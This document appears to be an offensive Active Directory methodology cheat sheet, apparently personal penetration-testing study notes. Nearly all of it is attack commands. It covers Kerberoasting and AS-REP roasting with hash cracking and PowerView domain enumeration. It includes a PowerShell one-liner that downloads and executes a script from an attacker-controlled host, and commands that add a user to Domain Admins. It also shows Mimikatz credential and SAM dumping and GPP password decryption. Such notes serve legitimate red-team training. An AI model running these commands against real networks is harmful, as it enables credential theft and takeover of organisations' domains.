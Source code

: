 # Methodology

## Enumeration

### Kali Commands

```bash
# Kerberoast
impacket-GetUserSPNs -request -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER:$PASS
impacket-GetUserSPNs -request -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER -hashes ':$NTLM'
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force

# AS-REP roast
impacket-GetNPUsers -request -dc-ip $IP -outputfile hashes.asreproast $DOMAIN/$USER
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```

With valid credentials for a domain user, we can first enumerate the domain remotely with [PowerView.py](https://github.com/aniqfakhrul/powerview.py)

```bash
# Connect
powerview --dc-ip $IP $DOMAIN/$USER:$PASS@$IP
powerview --dc-ip $IP $DOMAIN/$USER@$IP -H ':$NTLM'

# Identify DC
Get-NetDomain

# Enumerate user objects
Get-NetUser -Select samaccountname
Get-NetUser -Properties samaccountname,description,memberof
Get-NetUser $USER

# Enumerate group objects
Get-NetGroup -Properties cn,member
Get-NetGroup $GROUP
Get-NetGroup -UserName 

# Enumerate Computer objects
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

# Find hosts on the local domain where the current user has local administrator access
Find-LocalAdminAccess

# Check for logged-in users
Get-NetSession -ComputerName $COMPUTER

# Enumerate SPNs linked to users
Get-NetUser -SPN | select samaccountname,serviceprincipalname

# Retrieve the ACL for the specified object
Get-ObjectAcl -Identity $OBJECT | select SecurityIdentifier,ActiveDirectoryRights
Convert-SidToName $SID
"$SID","$SID" | Convert-SidToName

# Check if any users have "GenericAll" over a specified object
Get-ObjectAcl -Identity $OBJECT | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Enumerate domain shares
Find-DomainShare
Find-DomainShare -CheckShareAccess # Takes a long time
ls \\$COMPUTERNAME\$SHARE\$DOMAIN\
```

### Local Access

Once we have local access, we can run **[BloodHound](0%20Tools/BloodHound.md)**

**PowerView**

```powershell
# Import PowerView
iex(new-object net.webclient).downloadstring("http://$OUR_IP/PowerView.ps1")

# Idenfity DC (check Pdc)
Get-NetDomain

# Enumerate user objects
Get-NetUser | select samaccountname, name, displayname, userprincipalname, distinguishedname, objectsid, objectguid, memberof, lastlogon, pwdlastset, badpwdcount, badpasswordtime, useraccountcontrol
Get-NetUser $USER

# Enumerate group objects
Get-NetGroup | select cn, member
Get-NetGroup $GROUP | select cn, member
Get-NetGroup -UserName $USER | select cn

# Enumerate Computer objects
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

# Find hosts on the local domain where the current user has local administrator access
Find-LocalAdminAccess

# Check for logged-in users
Get-NetSession -ComputerName $COMPUTER

# Enumerate SPNs linked to users
Get-NetUser -SPN | select samaccountname,serviceprincipalname

# Retrieve the ACL for the specified object
Get-ObjectAcl -Identity $OBJECT | select SecurityIdentifier,ActiveDirectoryRights
Convert-SidToName $SID
"$SID","$SID" | Convert-SidToName

# Check if any users have "GenericAll" over a specified object
Get-ObjectAcl -Identity $OBJECT | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Enumerate domain shares
Find-DomainShare
Find-DomainShare -CheckShareAccess # Takes a long time
ls \\$COMPUTERNAME\$SHARE\$DOMAIN\
```

**Manual**

```powershell
# Print users within the current domain
net user /domain

# Check domain user information
net user offsec /domain

# Check domain groups
net group /domain
net group "$GROUP" /domain

# Add and remove "setphanie" from "Management Department"
net group "Domain Admins" mojo /add /domain
net group "Enterprise Admins" mojo /add /domain
```

### Tools

**[Mimikatz](0%20Tools/Local/Mimikatz.md)**

[Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

```bash
# mimikatz.exe
.\mimikatz.exe
privilege::debug
token::elevate
log
sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets
token::revert
exit

# 
```

**[gpp-decrypt](0%20Tools/gpp-decrypt.md)**

Decrypts GPP credentials. Typically found in files like `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml`, and `Drives.xml`.

Key things to look for:

- **File Location:** GPP files are usually found in the `SYSVOL` folder on a domain controller, under the path `\\[DOMAIN]\SYSVOL\[DOMAIN]\Policies\`.
- **cpassword Attribute:** Within these XML files, look for the `cpassword` attribute. This attribute holds the encrypted form of the password.
- **XML Structure:** The structure of the XML file can give you a hint. For example, in a `Groups.xml` file, you might see something like:

```xml
<Group ...>
  <Properties ... cpassword="EDUYJgCbgCAmO5E..." ... />
</Group>
```

Decrypt with:

```bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

**[Rubeus](0%20Tools/Local/Rubeus.md)**

Crack associated hashes in hashcat

```bash
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
